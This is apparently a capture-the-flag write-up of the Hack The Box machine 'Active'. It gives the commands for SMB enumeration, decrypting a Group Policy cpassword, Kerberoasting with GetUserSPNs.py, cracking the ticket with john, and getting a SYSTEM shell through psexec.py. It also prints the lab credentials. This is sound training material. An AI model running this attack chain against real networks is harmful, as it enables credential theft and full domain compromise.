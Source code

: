 ![Active_call_Card](https://user-images.githubusercontent.com/110210595/187805520-c29bf5fc-ce6e-484b-a14b-33bd87e78c78.png)

# nmap Scan 
Started off with a nmap. `nmap -Pn -T5 -sV -sC -A -p- -oN active_nmap.txt 10.10.10.100`<br>
Here is the results:

![nmap_scan](https://user-images.githubusercontent.com/110210595/187805488-8fc95761-8751-42fe-a1cf-1533ec9efcd6.png)

# smbmap
We see that smb is open.<br>
I run `smbmap -H 10.10.10.100`<br>

![smbmap_results](https://user-images.githubusercontent.com/110210595/187825021-0c32621b-4d50-41f8-ab62-2bc20b94d9cd.PNG)

We notice the domain name is active.htb This is great because we'll need this for the kerberos attack. We still need credentials.<br>
Only share we have access to is <em><strong>Replication</em></strong> and its only <em><strong>READ</em></strong> acces.<br>

# smbclient
I use `smbclient \\\\10.10.10.100\\Replication`<br>
I log in without a password and just press `ENTER` to hope anonymous log in is enabled.<br>

![smbclient_Replication_results](https://user-images.githubusercontent.com/110210595/187825380-c02c7cea-bf2e-496c-b255-b63c1b97e355.PNG)

We see <em><strong>ctive.htb</em></strong> again in the list and scour this entire directory. Lot's of directories that are empty, countless `cd ..` and cd directories until we ended up finding an interesting file.<br>

![Groups_xml_finding](https://user-images.githubusercontent.com/110210595/187825500-fd5a0269-be38-40d4-b360-8418a8294e77.PNG)

We find a <em><strong>Groups.xml</em></strong> file.<br>
Used `get Groups.xml`<br>
`cat Groups.xml` didn't work hehe.<br>

![Groups_xml_results](https://user-images.githubusercontent.com/110210595/187825600-fece54cb-5614-46d0-afd7-846d569fc7ff.PNG)


We could see<br>
<em><strong>cpassword</em></strong> = "edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" <br>
<em><strong>userName</em></strong> = active.htb\SVC_TGS <br>
Looks like we definitely found some credentials. But I'm not sure what format that cpassword is. I go to https://book.hacktricks.xyz/welcome/readme and do some research. Looks like cpassword is used in a Groups.xml file which is what we found. Didn't see much else so I used the same site https://book.hacktricks.xyz/welcome/readme but this time searched for Groups.xml file and we find much more info on it. Looks to be a cached GPP Password. 
https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation?q=Groups.xml#cached-gpp-pasword<br>


I use `gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ`<br>

![gpp_decrypt_results](https://user-images.githubusercontent.com/110210595/187825800-edb19a2c-1798-41a7-9866-1c7489bd0fc3.PNG)

The password is <em><strong>GPPstillStandingStrong2k18</em></strong><br>

Now we have -<br> 
UserName = <em><strong>active.htb\SVC_TGS</em></strong><br>
Password = <em><strong>GPPstillStandingStrong2k18</em></strong><br>

# Backtrack - smbclient Users
I remember there were other Users in the smbmap and saw <em><strong>Users</em></strong>. I went back to https://book.hacktricks.xyz/welcome/readme and typed in smbclient users and found a "List shared folders" sections. You can log in to the smbclient using a user parameter if you know the password. Which we do.
That section was actually only to list the shared files. Not connect. Scroll down a bit to Connect/List a shared folder. You'll see this is how to connect. I left the password out because I kept getting errors with it.<br>

![smbclient_Users_errors](https://user-images.githubusercontent.com/110210595/187826348-922411ac-76f4-4b5a-a3e4-53b9c19f6c99.PNG)

I used `smbclient -U SVC_TGS \\\\10.10.10.100\\Users`<br>

![smbclient_Users_SVC_TGS_results](https://user-images.githubusercontent.com/110210595/187826416-57f0c5b8-729a-4d77-a917-02afde46da56.PNG)

We see the <em><strong>SVC_TGS</em></strong> directory and `cd SVC_TGS` and `cd Desktop`<br> 
We see the <em><strong>user.txt</em></strong> file.<br>

![user_txt_found](https://user-images.githubusercontent.com/110210595/187826827-eeeb52cf-12c8-4d15-9772-234b136433e7.PNG)

I use a `get user.txt` <br>
`cat user.txt`

![user txt_results](https://user-images.githubusercontent.com/110210595/187826950-74ff1bbd-0926-492d-bf51-f0be10920c75.PNG)

![COWABUNGA](https://user-images.githubusercontent.com/110210595/187826983-ec11c879-f2d1-40b5-bcd8-740f2f5e7239.png)

We got the <em><strong>user.txt</em></strong> flag.<br>

Since I did an `exit` to cat out the <em><strong>user.txt</em></strong> flag we have to log back in. But there is nothing here. I want to check out that kerberos now since we know we could log in svc_tgs.<br>

I go back to https://book.hacktricks.xyz/network-services-pentesting/pentesting-kerberos-88#hacktricks-automatic-commands searching through port 88 and see that it's an authentication protocol with a secret password. Part of the <em><strong>Active Directory</em></strong> attacks.

I see <em><strong>Entry_4</em></strong> with Creds option. Since we do have the username and password.<br>
I use `GetUserSPNs.py -request -dc-ip 10.10.10.100 active.htb/svc_tgs` I get an error :/ probably because the script isn't in the direct path.<br>
I use `locate GetUserSPNs.py` find the file and renter the syntax.<br>
`/usr/share/doc/python3-impacket/examples/GetUserSPNs.py -request -dc-ip 10.10.10.100 active.htb/svc_tgs` <br>

![GetUserSPNs py_results](https://user-images.githubusercontent.com/110210595/187827380-36722399-7107-4d5a-8a90-d08a9cfba1a5.PNG)

We get the Administrator kerberos ticket!<br>
I copied the out put and put it into a text file called <em><strong>kerby.txt</em></strong><br>
I used `john kerby.txt --wordlist=/usr/share/wordlists/rockyou.txt`<br>
We cracked it.<br>

![kerby_results](https://user-images.githubusercontent.com/110210595/187827540-1bba8868-cec8-4e1a-bdf0-f50457dafb92.PNG)

The password to the Administrator account is Ticketmaster1968 <br>

![Mikey_being_a_savage](https://user-images.githubusercontent.com/110210595/187827646-fbdfbbae-715a-49ca-8417-18d524596a2b.png)

At this point I use <em><strong>psexec.py</em></strong> this is a priviledge escalation tool to use once you have credentials. Also can be used for commands in a windows machine for admins. You can find it here https://github.com/SecureAuthCorp/impacket and find out more about it here https://www.sans.org/blog/psexec-python-rocks/ Which we do have now.<br>

I use `/usr/share/doc/python3-impacket/examples/psexec.py Administrator:Ticketmaster1968@10.10.10.100`<br>
And it's a success!<br>

![psexec py_admin](https://user-images.githubusercontent.com/110210595/187827819-303b6624-c4c9-4530-8f7f-1ca22a09a46a.PNG)

We are <em><strong>nt authority\system</em></strong> which is <em><strong>equivalent</em></strong> to root on linux.<br>

I looked around and found the C:\Users\Administrator\Desktop used `dir` and we see the <em><strong>root.txt</em></strong> file.<br>

![root txt_results](https://user-images.githubusercontent.com/110210595/187827976-360b5df5-3b71-4a71-b0cb-5c47b1c3514b.PNG)


https://user-images.githubusercontent.com/110210595/187828063-21c9988b-dae8-400e-93f9-a41268c0f549.MOV


Take a break and go throw some ninja stars or something :)

